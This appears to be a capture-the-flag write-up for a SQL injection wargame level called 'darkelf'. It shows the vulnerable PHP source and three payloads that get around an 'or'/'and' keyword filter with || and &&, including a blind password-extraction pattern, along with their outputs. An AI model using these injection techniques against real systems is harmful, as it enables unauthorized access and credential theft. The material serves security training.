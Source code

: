 ```
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```
BLACKLIST= OR, AND

PAYLOAD 1: ?pw='||id='admin
OUTPUT: select id from prob_darkelf where id='guest' and pw=''||id='admin'-- -'
Hello admin

PAYLOAD 2: ?pw='|| id='admin'%26%26 length(pw)>0%23
OUTPUT: select id from prob_darkelf where id='guest' and pw=''|| id='admin'&& length(pw)>0#'
Hello Admin
Darkelf clear

PAYLOAD 3: ?pw=%27||id='admin'%26%26%20ascii(substr(pw,1,1))>0%23
OUTPUT: select id from prob_darkelf where id='guest' and pw=''||id='admin'&& ascii(substr(pw,1,1))>0#'
Hello Admin
Darkelf clear

Darkelf clear
